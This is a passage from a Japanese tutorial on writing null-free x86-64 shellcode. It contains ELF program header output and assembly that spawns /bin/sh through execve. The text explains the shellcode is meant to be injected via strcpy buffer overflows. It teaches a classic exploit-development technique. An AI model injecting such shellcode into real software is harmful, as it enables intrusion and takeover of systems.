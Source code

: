 ```
         filesz 0x00000000000002d8 memsz 0x00000000000002d8 flags r--
  INTERP off    0x0000000000000318 vaddr 0x0000000000000318 paddr 0x0000000000000318 align 2**0
         filesz 0x000000000000001c memsz 0x000000000000001c flags r--
    LOAD off    0x0000000000000000 vaddr 0x0000000000000000 paddr 0x0000000000000000 align 2**12
         filesz 0x0000000000000648 memsz 0x0000000000000648 flags r--
    LOAD off    0x0000000000001000 vaddr 0x0000000000001000 paddr 0x0000000000001000 align 2**12
         filesz 0x0000000000000245 memsz 0x0000000000000245 flags r-x
    LOAD off    0x0000000000002000 vaddr 0x0000000000002000 paddr 0x0000000000002000 align 2**12
         filesz 0x0000000000000110 memsz 0x0000000000000110 flags r--
    LOAD off    0x0000000000002dd8 vaddr 0x0000000000003dd8 paddr 0x0000000000003dd8 align 2**12
         filesz 0x0000000000000258 memsz 0x0000000000000260 flags rw-
 DYNAMIC off    0x0000000000002de8 vaddr 0x0000000000003de8 paddr 0x0000000000003de8 align 2**3
         filesz 0x00000000000001f0 memsz 0x00000000000001f0 flags rw-
    NOTE off    0x0000000000000338 vaddr 0x0000000000000338 paddr 0x0000000000000338 align 2**3
         filesz 0x0000000000000040 memsz 0x0000000000000040 flags r--
    NOTE off    0x0000000000000378 vaddr 0x0000000000000378 paddr 0x0000000000000378 align 2**2
         filesz 0x0000000000000044 memsz 0x0000000000000044 flags r--
0x6474e553 off    0x0000000000000338 vaddr 0x0000000000000338 paddr 0x0000000000000338 align 2**3
         filesz 0x0000000000000040 memsz 0x0000000000000040 flags r--
EH_FRAME off    0x0000000000002004 vaddr 0x0000000000002004 paddr 0x0000000000002004 align 2**2
         filesz 0x0000000000000034 memsz 0x0000000000000034 flags r--
   STACK off    0x0000000000000000 vaddr 0x0000000000000000 paddr 0x0000000000000000 align 2**4
         filesz 0x0000000000000000 memsz 0x0000000000000000 flags rwx
   RELRO off    0x0000000000002dd8 vaddr 0x0000000000003dd8 paddr 0x0000000000003dd8 align 2**0
         filesz 0x0000000000000228 memsz 0x0000000000000228 flags r--
```

## シェルコードからnullバイトを取り除く

上で作ったシェルコードは正しい機械語列ではあるが、途中にnullバイト (\x00) が入っている。 しかしこれでは、シェルコードを送り込むのにstrcpyでのバッファオーバーフローなどを利用する場合、途中のnullバイトが文字列終端とみなされてしまい、最後までシェルコードを送り込むことができない。 つまり、実用的なシェルコードとしてはnullバイトを含まない (null-free) であることが望ましい。

そこで、上で作ったシェルコードをnull-freeなものに書き換えてみる。
```
/* execve2.s */
        .intel_syntax noprefix
        .globl _start
_start:
        xor rdx, rdx #*envp[]
        push rdx
        mov rax, 0x68732f2f6e69622f #"/bin/sh"
        push rax
        mov rdi, rsp    #*pathname
        push rdx
        push rdi
        mov rsi, rsp    #*argv[] 
        xor rax, rax
        lea rax, [rdx+59]
        syscall



```
以下のことを行った
* /bin/shを/bin//shに置き換えることによって64bitの余った部分を"/"つまり2fで埋めることが出来た
* eaxに即値を入れる変わりにlea rax, [edx+59]とした
